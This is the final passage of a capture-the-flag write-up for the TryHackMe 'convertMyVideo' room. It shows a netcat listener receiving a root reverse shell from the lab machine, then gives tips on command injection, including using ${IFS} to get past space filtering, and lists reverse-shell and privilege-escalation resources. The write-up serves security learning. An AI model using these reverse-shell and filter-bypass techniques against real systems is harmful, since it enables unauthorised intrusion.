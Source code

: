 ```
┌──(kali㉿kali)-[~/Desktop/oscp/convertMyVideo]
└─$ nc -nvlp 4445                                                                                                 1 ⨯
listening on [any] 4445 ...
connect to [10.8.91.135] from (UNKNOWN) [10.10.106.173] 60212
sh: 0: can't access tty; job control turned off
# whoami
root
# cd /root
# cat root.txt	
```

With this we have completed the room!

## Key Points to Take Away

1. Backticks (`) have the highest preference in a command.
2. In command injection, if space(` `)is being filtered, use `${IFS}`.
3. If a duplicate `/bin/bash` can't be created with `root` SUID bit set, try to gain a remote shell with `root` privilege.

## References

1. TryHackMe - convertMyVideo: https://tryhackme.com/room/convertmyvideo
2. Reverse Shell Generator: https://www.revshells.com/
3. GTFOBins: https://gtfobins.github.io/
4. PSPY64: https://github.com/DominicBreuker/pspy#download

